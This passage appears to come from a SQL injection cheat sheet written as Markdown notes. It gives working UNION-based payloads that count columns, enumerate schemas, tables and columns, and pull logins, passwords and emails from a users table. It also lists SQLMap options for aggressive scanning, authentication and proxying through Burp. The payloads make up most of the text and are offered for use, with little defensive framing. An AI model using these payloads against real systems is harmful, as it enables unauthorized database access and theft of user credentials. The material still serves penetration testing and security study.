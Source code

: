 ```console
```
### UNION SELECT
Select more and more null values until the query is correct:
```console
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```
## Find the column that is likely to contain exploitable information
The purpose of this step is to find the column whose content is displayed on the response, and then embed the mined information in it
```console
1' UNION SELECT 1,2,3,4,5,6,7-- -;
1' UNION SELECT 1,2,3,4,version(),database(),user()-- -;
```
## Extract database names, table names and column names
```console
#Database names
1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database()--

#Column names
1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name='user'--

#Collect important data
1' UniOn Select 1,2,3,gRoUp_cOncaT(login,0x3a,password,0x3a,email) fRoM users--
```
*Note: after using Repeater to check and have found the payload to attack, you can directly use burp to redirect the login. Enter the payload at Intercept (Proxy) and press Forward.*
# SQLMap - Cheetsheat
## Basic arguments for SQLmap
```console
-u "<URL>" 
-p "<PARAM TO TEST>"
-r request.req (using burp)
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```
## Retrieve Information
### Internal